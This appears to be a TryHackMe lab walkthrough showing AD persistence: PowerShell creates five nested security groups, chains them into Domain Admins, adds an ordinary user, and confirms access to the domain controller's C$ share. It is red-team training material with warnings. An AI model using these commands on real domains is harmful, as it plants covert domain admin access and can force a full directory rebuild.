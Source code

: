 # Persistence through group membership

## Warning

**A quick note here. These techniques are incredibly invasive and hard to remove. Even if you have sign-off on your 
red team exercise to perform these techniques, you must take the utmost caution when performing these techniques. 
In real-world scenarios, the exploitation of most of these techniques would result in a full domain rebuild. Make 
sure you fully understand the consequences of using these techniques and only perform them if you have prior 
approval on your assessment, and they are deemed necessary. In most cases, a red team exercise would be dechained 
at this point instead of using these techniques. Meaning you would most likely not perform these persistence 
techniques but rather simulate them.**

The most privileged groups or resources are not always the best choice, as they are often more closely watched for 
changes by the blue team. [Exploiting permission delegation](../exploit/permissions.md) gave privileges to reset 
user passwords, which would be good for maintaining access to workstations.

A local administrator group may be less monitored than a global administrator groups, and a group nested in a 
privileged group may be the access needed.

`SSH` to `THMDC`:

    ssh administrator@za.tryhackme.loc@thmdc.za.tryhackme.loc

## Create groups

Launch PowerShell

    powershell -ep bypass

Create group in the People\IT OU:

    New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "THM Nest Group 1" -SamAccountName "THM_nestgroup1" -DisplayName "THM Nest Group 1" -GroupScope Global -GroupCategory Security

Create group in the People\Sales OU:

    New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "THM Nest Group 2" -SamAccountName "THM_nestgroup2" -DisplayName "THM Nest Group 2" -GroupScope Global -GroupCategory Security

Create group in the People\Consulting OU:

    New-ADGroup -Path "OU=CONSULTING,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "THM Nest Group 3" -SamAccountName "THM_nestgroup3" -DisplayName "THM Nest Group 3" -GroupScope Global -GroupCategory Security

Create group in the People\Marketing OU:

    New-ADGroup -Path "OU=MARKETING,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "THM Nest Group 4" -SamAccountName "THM_nestgroup4" -DisplayName "THM Nest Group 4" -GroupScope Global -GroupCategory Security

Create group in the People\IT OU:

    New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "THM Nest Group 5" -SamAccountName "THM_nestgroup5" -DisplayName "THM Nest Group 5" -GroupScope Global -GroupCategory Security

## Nesting

Add Group 1 to Group 2

    Add-ADGroupMember -Identity 'THM_nestgroup2' -Members 'THM_nestgroup1'

Add Group 2 to Group 3

    Add-ADGroupMember -Identity 'THM_nestgroup3' -Members 'THM_nestgroup2'

Add Group 3 to Group 4

    Add-ADGroupMember -Identity 'THM_nestgroup4' -Members 'THM_nestgroup3'

Add Group 4 to Group 5

    Add-ADGroupMember -Identity 'THM_nestgroup5' -Members 'THM_nestgroup4'

Add Group 5 to Domain Admins

    Add-ADGroupMember -Identity 'Domain Admins' -Members 'THM_nestgroup5'

Add unprivileged user to Group 1

    Add-ADGroupMember -Identity 'THM_nestgroup1' -Members 'user.name'

## Verify inherited privileges

`SSH` to `thmwrk1` as the unprivileged user.

    ssh user.name@za.tryhackme.loc@thmwrk1.za.tryhackme.loc

Try accessing a privileged resource on the domain controller:

    dir \\thmdc.za.tryhackme.loc\c$\Users
 
     Volume in drive \\thmdc.za.tryhackme.loc\c$ is Windows 
     Volume Serial Number is 1634-22A9
    
     Directory of \\thmdc.za.tryhackme.loc\c$
    
    01/04/2022  08:47 AM               103 delete-vagrant-user.ps1     
    05/01/2022  09:11 AM               169 dns_entries.csv
    09/15/2018  08:19 AM    <DIR>          PerfLogs
    05/11/2022  10:32 AM    <DIR>          Program Files
    03/21/2020  09:28 PM    <DIR>          Program Files (x86)
    05/01/2022  09:17 AM             1,725 thm-network-setup-dc.ps1    
    04/25/2022  07:13 PM    <DIR>          tmp
    05/15/2022  09:16 PM    <DIR>          Tools
    04/27/2022  08:22 AM    <DIR>          Users
    04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant] 
    04/27/2022  08:12 PM    <DIR>          Windows
                   3 File(s)          1,997 bytes
                   8 Dir(s)  51,573,755,904 bytes free

If this was a real organisation, we would not be creating new groups to nest. Instead, we would make use of the 
existing groups to perform nesting. This is something you would never do on a normal red team assessment and 
almost always dechain at this point since it breaks the organisation's AD structure, and if we sufficiently break it, 
they would not be able to recover. At this point, even if the blue team was able to kick us out, the organisation 
would more than likely still have to rebuild their entire AD structure from scratch, resulting in significant damages.


